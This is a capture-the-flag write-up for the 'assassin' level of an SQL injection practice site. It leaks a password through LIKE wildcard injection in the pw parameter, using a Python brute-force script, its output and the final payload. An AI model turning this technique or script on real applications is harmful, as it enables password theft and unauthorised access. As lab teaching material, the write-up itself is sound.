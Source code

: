 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 15
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a4d30de7-86ed-4978-8c4c-38f8827700a5)

SQL query:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '{$_GET[pw]}'
```

### Filter

The code filters out the following characters:

- Single quotes



### Wildcard

We have to use wildcards to leak out the password.

![Pasted image 20240621082037](https://github.com/Kunull/Write-ups/assets/110326359/7c57a891-1577-4c2d-940d-556cac31d631)

If we provide the following URI:

```
?pw=%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '%'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/4f441821-33d7-40d8-ac70-76dea5327282)

Since the `Hello guest` message is printed, we know that the `guest` user has a lower index than the `admin` user.

Let's provide the following URI:

```
?pw=0%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '0%'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/111c6b2d-5420-4ed9-adbd-2fd4e989cc44)

The first character of none of the passwords is `0`.

We can try other characters moving up to the following:

```
?pw=9%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '9%'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/949f9c1a-f635-4af9-a930-8a212bf4ce66)

So the first character of both the `admin` and `guest` password is common, being `9`.

We can keep on following this method until the `Hello admin` message is included in the response. That tells us that the password is exclusive to the `admin` only.

```
902%
```

### Script

We can automate the entire process using a script.

```python title="assassin_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'cih6lj5v0dkr263t42fnn0d7br'}
url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'

guest_password = ''
admin_password = ''
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 9):
  for char in searchspace:
    payload = f"{guest_password}{char}"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}%'

    response = requests.get(full_url, cookies=cookies)

    if ("Hello admin" in response.text):
      admin_password = guest_password + char 
      break
    elif ("Hello guest" in response.text):
      guest_password += char
      print(f'[x] Common character: {char}')
      break

print()
print(f'[x] Distinct character: {char}')
print(f'[!] Extracted password: {admin_password}%')
print(f'[!] Final payload: ?pw={admin_password}%')
```

```
$ python .\assassin_script.py

[x] Common character: 9
[x] Common character: 0

[x] Distinct character: 2  
[!] Extracted password: 902%
[!] Final payload: ?pw=902% 
```

If we provide the following URI:

```
?pw=902%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '902%'
```

![0](https://github.com/Kunull/Write-ups/assets/110326359/72b89d8f-5346-492b-a89d-52247da864c1)
